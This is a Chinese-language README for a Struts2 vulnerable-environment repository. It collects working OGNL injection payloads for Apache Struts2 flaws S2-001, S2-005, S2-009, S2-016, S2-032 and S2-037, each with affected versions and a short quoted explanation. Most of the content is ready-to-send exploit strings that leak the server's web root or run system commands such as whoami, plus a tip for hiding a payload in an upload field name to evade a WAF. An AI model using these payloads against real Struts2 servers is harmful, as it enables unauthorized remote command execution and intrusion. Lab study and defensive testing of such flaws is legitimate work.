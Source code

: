 # Struts2Environment
Struts2 历史版本的漏洞环境,PoC暂时弄了S2-001,S2-005,S2-009,S2-016,S2-032,S2-037
下文来自http://blog.0kami.cn/2017/01/13/Struts2-history-payload/
# PoC
## Struts2 S2-001
    影响版本：2.0.0 - 2.0.8
    具体详情：https://struts.apache.org/docs/s2-001.html
> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。
###构造PoC
获取tomcat执行路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
获取web根目录

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
执行系统命令

```
%{#a=(new java.lang.ProcessBuilder("whoami")).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#matt.getWriter().println(new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()}
```

## Struts2 S2-005
    影响版本: 2.0.0 - 2.1.8.1
    漏洞详情: http://struts.apache.org/docs/s2-005.html
    
>struts2漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为ongl语句执行(可理解为java代码)。ongl表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式讲这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

上文引用[LittleHann](http://www.cnblogs.com/LittleHann/p/4606891.html)的描述

### 构造PoC
获取web根目录

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i97)(('\43xman.getWriter().println(\43req.getRealPath(%22\u005c%22))')(d))&(i99)(('\43xman.getWriter().close()')(d))
```

执行系统命令

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'"+cmd+"\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

上面2个PoC摘自k8team，为了写PoC，有所改动，但是这里就不贴上来了：）

## Struts2 S2-009
    影响版本: 2.0.0 - 2.3.1.1
    漏洞详情: https://struts.apache.org/docs/s2-009.html

漏洞利用点跟S2-003和S2-005类似，利用OGNL表达式(1)(2),会执行1的OGNL表达式，009构造了的方法为test=(some OGNL 表达式)(1)&z[(test)(1)]=true。
z[(test)(1)]=true,对struts2来说是合法的参数，但是(test)(1)会执行上述说的方法，test的值被带入计算，造成命令执行。

### 构造PoC
弹计算器 ps:实验环境试了好几次都不能回显数据，路过的大佬求指教：）

```
person.name=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('open /Applications/Calculator.app'))(meh)&z[(person.name)('meh')]=true
```
用的是`person/new-person.action`这个控制器
## Struts2 S2-016
    影响版本: 2.0.0 - 2.3.15
    漏洞详情: https://struts.apache.org/docs/s2-016.html
    
>DefaultActionMapper 类支持以 action:，redirect: 和 redirectAction: 作为访问前缀，前缀后面可以跟 OGNL 表达式，由于 Struts2 未对其进行过滤，导致任意 Action 可以使用这些前缀执行任意 OGNL 表达式，从而导致任意命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

### 构造PoC
获取web根目录

```
?redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```
执行系统命令

```
?redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('co'+'m.ope'+'nsymph'+'ony.x'+'wor'+'k2.disp'+'atch'+'er.HttpSe'+'rvletRe'+'sponse'),#matt.getWriter().println(new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()}'
```

还有一种比较隐蔽的方法，将PoC放在文件上传的name处，过waf。

## Struts2 S2-032
    影响版本: 2.3.20 - 2.3.28 (except 2.3.20.3 and 2.3.24.3)
    漏洞详情: https://struts.apache.org/docs/s2-032.html
    
> 在配置了 Struts2 DMI 为 True 的情况下，可以使用 method:<name> Action 前缀去调用声明为 public 的函数，DMI 的相关使用方法可参考官方介绍（Dynamic Method Invocation），这个 DMI 的调用特性其实一直存在，只不过在低版本中 Strtus2 不会对 name 方法值做 OGNL 计算，而在高版本中会，代码详情可参考阿尔法实验室的报告 - 《Apache Struts2 s2-032技术分析及漏洞检测脚本》

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

### 构造PoC
获取web根目录

```
?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#req=#context.get(#parameters.a[0]),#resp=#context.get(#parameters.b[0]),#resp.setCharacterEncoding(#parameters.c[0]),#ot=#resp.getWriter (),#ot.print(#parameters.e[0]+#req.getSession().getServletContext().getRealPath(#parameters.d[0])),#ot.flush(),#ot.close&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```

执行系统命令

```
?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#a=(new java.lang.ProcessBuilder(#parameters.a[0])).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(#parameters.b[0]),#matt.getWriter().println(#parameters.c[0]+new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```

## Struts2 S2-037
    影响版本: 2.3.20 - 2.3.28.1
    漏洞详情: http://struts.apache.org/docs/s2-037.html
    
> 这个漏洞和之前S2-032/033是一个地方，都是在DefaultActionInvocation.java的invokeAction方法中没有对于methodName参数内容进行校验，便直接丢到了getValue方法里面，从而造成Ongl表达式的注入。

上文引用[nsfocus](http://blog.nsfocus.net/tech/%E7%83%AD%E7%82%B9%E8%B7%9F%E8%B8%AA/2016/06/16/Struts2-S2-037(CVE-2016-4438)%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)的描述

### 构造PoC
获取web根目录

```
/(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(#req=#context.get(#parameters.a[0]),#resp=#context.get(#parameters.b[0]),#resp.setCharacterEncoding(#parameters.c[0]),#ot=#resp.getWriter (),#ot.print(#parameters.e[0]+#req.getSession().getServletContext().getRealPath(#parameters.d[0])),#ot.flush(),#ot.close):xx.toString.json?&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```
执行系统命令

```
/(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(#a=(new java.lang.ProcessBuilder(#parameters.a[0])).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(#parameters.b[0]),#matt.getWriter().println(#parameters.c[0]+new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()):xx.toString.json?&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```



